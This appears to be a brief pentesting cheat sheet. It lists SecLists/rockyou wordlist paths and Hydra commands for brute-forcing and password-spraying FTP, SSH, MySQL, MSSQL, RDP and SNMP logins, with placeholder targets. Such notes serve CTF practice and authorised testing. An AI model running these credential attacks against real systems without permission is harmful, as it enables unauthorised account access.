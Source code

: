 # *Wordlists*
```
Users wordlists
---------
/usr/share/wordlists/dirb/others/names.txt
/usr/share/seclists/Usernames/top-usernames-shortlist.txt


Passwords wordlists
---------
/usr/share/seclists/Passwords/rockyou-40.txt

```
# *Hydra*

# *ftp ssh mysql mssql rdp snmp*

## Quick brute
```shell
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/rockyou-40.txt PROTO://`tip`
```
## Brute password
```shell
# Bruteforce password
hydra -l 'user' -P /usr/share/wordlists/rockyou.txt -s PORT PROTO://`tip`
```
## Spray password
```shell
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" PROTO://`tip`
```

### resources
```shell
https://github.com/gnebbia/hydra_notes
```